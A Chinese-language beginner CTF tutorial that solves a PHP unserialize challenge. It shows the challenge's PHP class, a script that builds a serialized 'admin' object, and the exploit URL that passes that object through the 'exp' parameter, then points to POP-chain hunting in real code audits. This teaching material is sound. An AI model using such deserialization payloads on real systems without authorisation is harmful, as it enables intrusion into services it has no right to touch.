


# 网络安全入门：P167：真题讲解—unserialize



## 📖 概述
在本节课中，我们将学习一道关于PHP反序列化（unserialize）的CTF入门题目。我们将从分析题目信息开始，逐步讲解如何发现漏洞、构造利用数据，并最终获取flag。整个过程将分为清晰的步骤，确保初学者能够理解并掌握反序列化漏洞的基本利用方法。

---

## 🔍 第一步：分析题目信息
上一节我们介绍了CTF解题的基本思路，本节中我们来看看如何具体分析这道题目。

做CTF的Web类题目时，首先需要观察三个关键点：URL、页面内容、网页源代码。本题的URL中包含“unserialize”关键词，提示此题可能与反序列化相关。页面本身没有显示额外信息。

查看网页源代码后，发现了一段被注释的PHP代码。这段代码是解题的关键线索。

```php
<!--
class login {
    public $user;
    function __destruct() {
        if ($this->user == "admin") {
            echo "flag{...}";
        } else {
            echo "you are not my admin";
        }
    }
}
-->
```

## 🛠️ 第二步：理解代码逻辑
从源代码中，我们提取出了核心的PHP类定义。这段代码定义了一个名为 `login` 的类，它有一个公共属性 `$user` 和一个析构函数 `__destruct()`。

析构函数中的逻辑是判断：如果 `$this->user` 属性的值等于字符串 `"admin"`，则输出flag；否则，输出“you are not my admin”。

我们的目标很明确：需要让服务器端反序列化后的对象，其 `$user` 属性的值为 `"admin"`。

## 🧩 第三步：构造序列化数据
理解了目标后，我们进入核心步骤：构造能够达成目标的序列化字符串。

以下是构造序列化数据的步骤：
1.  将提取的类定义代码保存为一个本地PHP文件（例如 `exp.php`）。
2.  在代码中实例化 `login` 类，并将其 `$user` 属性赋值为 `"admin"`。
3.  使用 `serialize()` 函数生成该对象的序列化字符串。

```php
<?php
class login {
    public $user;
}

$obj = new login();
$obj->user = "admin";
echo serialize($obj);
?>
```
执行这段代码，会得到类似以下的序列化字符串：
```
O:4:"login":1:{s:4:"user";s:5:"admin";}
```
这个字符串就包含了我们设定好的属性值。

## 🚀 第四步：发送数据并获取Flag
序列化数据构造完成后，我们需要将其发送给题目服务器。

观察题目页面，发现它通过GET参数 `exp` 来接收数据。因此，我们使用HackBar工具（或直接在浏览器地址栏构造），将生成的序列化字符串作为 `exp` 参数的值传递过去。

完整的请求URL格式如下：
```
http://题目网址/?exp=O:4:"login":1:{s:4:"user";s:5:"admin";}
```



发送请求后，服务器会反序列化我们传递的数据，还原出 `login` 对象。当对象销毁时，其析构函数 `__destruct()` 被触发。由于我们构造的 `$user` 值为 `"admin"`，条件判断成立，服务器便会返回flag。

## 💡 总结与拓展
本节课中我们一起学习了一道典型的PHP反序列化入门题。我们回顾一下核心流程：
1.  **信息收集**：通过查看源代码发现关键代码。
2.  **逻辑分析**：理解代码逻辑，明确攻击目标（使 `$user == "admin"`）。
3.  **数据构造**：本地实例化类并给属性赋值，利用 `serialize()` 生成序列化字符串。
4.  **漏洞利用**：将序列化字符串通过指定参数（`exp`）传递给服务器，触发反序列化并执行目标代码。

这个流程中，**第三步“给属性赋值”是随题目变化的核心**，需要根据代码逻辑灵活调整。而其他步骤是相对固定的模式。

**关于实战挖掘**：在实际漏洞挖掘中，反序列化漏洞常出现在代码审计环节。你需要寻找程序中使用 `unserialize()` 函数且参数可控的地方，并向上追溯可用的类（“POP链”），构造复杂的利用链。这通常需要结合其他漏洞（如文件读取获取源码）进行综合性利用。

希望本教程能帮助你理解反序列化漏洞的基本原理。掌握这个基础后，你可以继续学习更复杂的POP链构造和原生类的利用等高级知识。